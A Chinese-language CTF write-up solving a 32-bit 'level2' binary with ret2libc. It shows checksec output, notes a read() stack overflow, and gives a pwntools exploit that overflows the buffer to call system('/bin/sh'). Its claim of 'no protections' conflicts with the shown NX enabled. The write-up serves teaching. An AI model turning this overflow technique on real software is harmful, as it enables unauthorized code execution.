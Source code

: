 # 知识点

ret2libc



# 题目分析

1. 查看保护情况，32位程序，没开启任何保护。

   ```bash
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

2. 拖入IDA，发现执行了vulnerable函数，跟入分析。

   发现read存在栈溢出漏洞。

   ![ida](./isset/ida.png)

3. 继续分析，发现题目提供了libc中的system函数，并且提供了/bin/sh字符串。

   直接ret2libc，覆盖返回地址执行system("/bin/sh")即可。

   ![ida2](./isset/ida2.png)



# EXP

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./level2')
elf = ELF('./level2')

system = elf.plt['system']
binsh = 0x0804A024

payload = 'A' * 0x88 + 'dead' + p32(system) + p32(0) + p32(binsh)
io.sendafter('Input:', payload)

io.interactive()
```

